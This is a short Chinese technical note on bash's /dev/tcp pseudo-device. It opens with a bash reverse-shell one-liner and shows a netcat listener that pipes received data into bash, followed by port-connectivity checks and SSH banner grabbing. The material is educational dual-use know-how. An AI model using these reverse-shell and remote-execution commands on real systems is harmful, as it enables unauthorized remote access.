# /dev/tpc/host/port 文件

> reverse shell
>
> ```
> bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
> ```
>
> 将stdin整合到stdout，然后将stdout 和 stderr 都从复制到`/dev/tcp/192.168.146.129`中。然后将stdin执行stdout对应的文件即`/dev/tcp/192.168.146.129`

虽然看起来像一个文件，但是实际并不存在。如果是一个合法的规则，bash(==这是bash特有的，所以zsh使用时会报错==)会尝试打开相关的tpc socket。同样的还有`/dev/udp/host/port`

我们在A使用nc监听10086端口，B创建文件主动连接

```
#A
root in /etc/ssh λ nc -lk -p 10086 | bash

#B
┌─────( root)─────(/etc) 
 └> $ echo "ls"  > /dev/tcp/8.135.0.171/10086

#A显示
root in /etc/ssh λ nc -lk -p 10086 | bash
moduli          sshd_config       ssh_host_dsa_key.pub    ssh_host_ed25519_key      ssh_host_rsa_key.pub
ssh_config      sshd_config.bak   ssh_host_ecdsa_key      ssh_host_ed25519_key.pub  ssh_import_id
ssh_config.bak  ssh_host_dsa_key  ssh_host_ecdsa_key.pub  ssh_host_rsa_key
```

也可以用来发送请求

```
┌─────( root)─────(/etc) 
 └> $ printf GET HTTP 1.1 /r/n'  > /dev/tcp/baidu.com/443

---

root in /opt λ tcpdump -i eth0 host baidu.com
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:21:03.819749 IP 192.168.80.200.55266 > 39.156.69.79.https: Flags [S], seq 1888363027, win 64240, options [mss 1460,sackOK,TS val 1940856432 ecr 0,nop,wscale 7], length 0
```

==结合timeout来测试连通性==

```
 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/443;echo $?
0

 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/999;echo $?
bash: connect: Connection refused
bash: /dev/tcp/baidu.com/999: Connection refused
1
```

SSH版本探测

```
[root@8d3d229c-4aab-4812-96b9-37c8bc47a1d8 ~]#  cat  < /dev/tcp/8.135.0.171/22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

